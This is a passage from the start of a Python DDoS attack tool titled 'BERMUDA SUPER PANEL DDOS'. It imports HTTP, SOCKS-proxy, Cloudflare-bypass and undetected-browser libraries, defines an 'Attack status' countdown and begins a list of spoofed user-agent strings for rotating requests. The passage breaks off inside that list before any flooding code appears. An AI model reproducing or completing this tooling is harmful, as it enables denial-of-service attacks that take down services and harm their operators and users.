 # BERMUDA
SUPER PANEL DDOS
# -*- coding: utf-8 -*-
from os import system, name
import httpx
#import asyncio
from httpx import AsyncClient, Headers
import os, threading, requests, cloudscraper, datetime, time, socket, socks, ssl, random
from urllib.parse import urlparse
from requests.cookies import RequestsCookieJar
import undetected_chromedriver as webdriver
from sys import stdout
from colorama import Fore, init
init(convert=True)
def countdown(t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    while True:
        if (until - datetime.datetime.now()).total_seconds() > 0:
            stdout.flush()
            stdout.write("\r "+Fore.MAGENTA+"[*]"+Fore.WHITE+" Attack status => " + str((until - datetime.datetime.now()).total_seconds()) + " sec left ")
        else:
            stdout.flush()
            stdout.write("\r "+Fore.MAGENTA+"[*]"+Fore.WHITE+" Attack Done !                                   \n")
            return
#ua
useragents=["Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1",
			"Mozilla/5.0 (Android; Linux armv7l; rv:2.0.1) Gecko/20100101 Firefox/4.0.1 Fennec/2.0.1",
			"Mozilla/5.0 (WindowsCE 6.0; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
			"Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0",
			"Mozilla/5.0 (Windows NT 5.2; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 SeaMonkey/2.7.1",
			"Mozilla/5.0 (Windows NT 6.0) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/15.0.874.120 Safari/535.2",
			"Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/18.6.872.0 Safari/535.2 UNTRUSTED/1.0 3gpp-gba UNTRUSTED/1.0",
			"Mozilla/5.0 (Windows NT 6.1; rv:12.0) Gecko/20120403211507 Firefox/12.0",
			"Mozilla/5.0 (Windows NT 6.1; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
			"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.27 (KHTML, like Gecko) Chrome/12.0.712.0 Safari/534.27",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.24 Safari/535.1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.7 (KHTML, like Gecko) Chrome/16.0.912.36 Safari/535.7",
			"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.6 (KHTML, like Gecko) Chrome/20.0.1092.0 Safari/536.6",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:10.0.1) Gecko/20100101 Firefox/10.0.1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:15.0) Gecko/20120427 Firefox/15.0a1",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:2.0b4pre) Gecko/20100815 Minefield/4.0b4pre",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:6.0a2) Gecko/20110622 Firefox/6.0a2",
			"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:7.0.1) Gecko/20100101 Firefox/7.0.1",
			"Mozilla/5.0 (Windows NT 6.2) AppleWebKit/536.3 (KHTML, like Gecko) Chrome/19.0.1061.1 Safari/536.3",
			"Mozilla/5.0 (Windows; U; ; en-NZ) AppleWebKit/527  (KHTML, like Gecko, Safari/419.3) Arora/0.8.0",
			"Mozilla/5.0 (Windows; U; Win98; en-US; rv:1.4) Gecko Netscape/7.1 (ax)",
			"Mozilla/5.0 (Windows; U; Windows CE 5.1; rv:1.8.1a3) Gecko/20060610 Minimo/0.016",
			"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/531.21.8 (KHTML, like Gecko) Version/4.0.4 Safari/531.21.10",
